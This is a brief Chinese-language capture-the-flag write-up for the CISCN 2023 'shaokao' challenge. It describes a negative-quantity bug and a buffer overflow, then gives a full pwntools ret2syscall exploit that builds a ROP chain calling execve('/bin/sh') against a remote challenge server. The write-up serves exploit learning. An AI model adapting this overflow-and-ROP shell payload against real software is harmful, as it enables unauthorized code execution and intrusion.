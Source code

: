 [[CISCN 2023 初赛]烧烤摊儿 | NSSCTF](https://www.nssctf.cn/problem/4055)
一道并不难的题目，实际运行后可以发现在输入数量的地方可以输入负数，从而将钱的数量增加
![[Pasted image 20240919103614.png]]
钱够了后可以将店买下来，买下来后可以改名，改名后会将输入的字符串放在`name`变量中，同时查看`ROPgadget`可以发现有`syscall`，
故为一道`ret2syscall`

exp:
```python
from pwn import *

context(arch='amd64', os='linux', log_level='debug')
local = False
if local:
    p = process('./shaokao')
else:
    p = remote('node4.anna.nssctf.cn', 28230)
syscall_addr = 0x402404
rdi = 0x40264f
ret = 0x40101a
rax_rdx_rbx = 0x4a404a
rsi = 0x40a67e
name = 0x4E60F0

p.sendline(b'1')
p.sendline(b'1')
p.sendline(b'-99999999')
p.sendline(b'4')
p.sendline(b'5')

payload = b'/bin/sh\x00'
payload += b'a' * (0x20)
payload += p64(rax_rdx_rbx) + p64(59) + p64(0) + p64(0)
payload += p64(rdi) + p64(name)
payload += p64(rsi) + p64(0)
payload += p64(syscall_addr)

p.sendline(payload)

p.interactive()
```